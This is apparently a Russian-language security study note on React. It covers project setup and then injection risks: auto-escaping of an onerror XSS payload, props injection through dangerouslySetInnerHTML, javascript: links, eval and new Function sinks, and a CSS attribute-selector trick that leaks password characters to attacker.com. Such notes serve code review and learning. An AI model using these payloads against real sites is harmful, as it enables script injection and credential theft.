 # React JS

## Создать проект

```
$ npx create-react-app test-project-name
...
Success! Created test-app at /Users/user/JsProjects/test-app
Inside that directory, you can run several commands:

    yarn start
      Starts the development server.
  
    yarn build
      Bundles the app into static files for production.
  
    yarn test
      Starts the test runner.
  
    yarn eject
      Removes this tool and copies build dependencies, configuration files
      and scripts into the app directory. If you do this, you can’t go back!
  
We suggest that you begin by typing:

  cd test-project-name
  yarn start
  
$ cd test-project-name
$ yarn start (or npm start)
```

## Структура проекта

```
node_modules — зависимости
public/index.html — главный html документ (по сути ввсе приложение отрисовывается в компонент с id=root)
package.json — описание зависимостей
index.js — по сути главный исполняемый файл, который отрисовывает компонент App и кладет в root
App.js — внутри видим html-подобный код — это JSX.

Так же в index.js видим в узле scripts команды объяленные: запуск приложения (можно и через yarn) 
npm start
```

## Разработка

У React компонентный подход: то есть создаем отдельные компоненты, а потом их комбинируем

## Интересные пакеты

React Flow — построение графов — [https://reactflow.dev/](https://reactflow.dev/)

## Security

### XSS

В ReactJS встроена защита, от разного рода XSS инъекций (auto escaping):

```jsx
import './App.css';

function App() {
  let XSS_PAYLOAD = "<img src=x onerror='alert(123)'/>";

  return (
    <div className="App">
      <header className="App-header">
        <div>STRING {XSS_PAYLOAD} ESCAPED</div>
      </header>
    </div>
  );
}

export default App;
```

И выглядит это так:

<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="original">

Однако, для разработчиков оставили способ отрисовать html+js в динамике, если это действительно необходимо:

```javascript
function createMarkup() {
  return {__html: 'First &middot; Second'};
}

function MyComponent() {
  return <div dangerouslySetInnerHTML={createMarkup()} />;
}
```

PS:  Ну и всякие documentWrite остаются, конечно:

```javascript
const contentWindow = iframe.contentWindow || iframe.contentDocument.document || iframe.contentDocument

contentWindow.document.open()
contentWindow.document.write(htmlBody)
contentWindow.document.close()
```

### Props Injections

В React есть возможность передать в компонент массив с переопределенными атрибутами. Если атакующий может контролировать этот массив, то он сможет определить ключ атрибута `dangerouslySetInnerHTML` и добавить туда свою нагрузку:

```jsx
import './App.css';

function App() {
  const STRONG_PAYLOAD = "<strong>TEST</strong>";
  const XSS_PAYLOAD = "<img src=x onerror='alert(123)'/>";

  const PROPS_INJ_PAYLOAD = {"dangerouslySetInnerHTML": {"__html": STRONG_PAYLOAD}};
  
  return (
    <div className="App">
      <header className="App-header">
        <div {...PROPS_INJ_PAYLOAD} />
      </header>
    </div>
  );
}

export default App;
```

Один только нюанс: это сработает только в том случае, если в `PROPS_INJ_PAYLOAD` не содержится других ключей, иначе React/Webpack выведут ошибку:&#x20;

![](<../../../../.gitbook/assets/image (1) (1).png>)

### Injectable Attributes

```jsx
import './App.css';

function App() {
    const ATTR_PAYLOAD = "javascript:alert(1)";
    
    return (
        <div className="App">
          <header className="App-header">
              <a href={ATTR_PAYLOAD}>Link</a>
          </header>
        </div>
    );
}

export default App;
```

### CSS in JS

У React есть возможность определять стили для компонентов прямо в JS коде, используя JS синтаксис:

```jsx
```

Короч есть какая-та возможность делать css injection. Но я не разобрался. Надо лезть в документацию и смотреть разницу между class и className (один из них безопасный, другой — нет) и как делать Attribute Injection в эти поля.

### Eval-based Injections

If you can control a string that is dynamically evaluated, you have hit the jackpot and may proceed to inject arbitrary code of your choosing. This should be a rare occurrence.

```jsx
function antiPattern() {
  eval(this.state.attacker_supplied);
}
// Or even crazier
fn = new Function("..." + attacker_supplied + "...");
fn();

// Example
const addition = new Function(‘a’, ‘b’, ‘return a+b’);
addition(1, 1)

// Так же нельзя допускать, чтобы строки попадали 
// в setInterval() или setTimeout() как аргумент
setTimeout(“console.log(1+1)”, 1000);

```

Соответственно, ищем использование:

```jsx
eval()
new Function()
setTimeout()
setInterval()
```

### Serialization

```jsx
// Это всегда плохо (почти)
Ищем JSON.stringify
Ищем YAML, XML, Markdown,...
```

### Incorrect work with location

Ищем по коду работу с `window.location`. Здесь могут быть и не так обработанные параметры, и Open Redirect и CSRF и тп.

### Чем вообще могут помочь инъекции в стили

#### Password stealing

```jsx
<style>
    #form2 input[value^='a'] { background-image:url(https://attacker.com/?a); }
    #form2 input[value^='b'] { background-image:url(https://attacker.com/?b); }
    #form2 input[value^='c'] { background-image:url(https://attacker.com/?c); }
     [...]
 </style>
 <form action="http://example.com" id="form2">
   <input type="text" id="secret" name="secret" value="abc">
 </form>
```
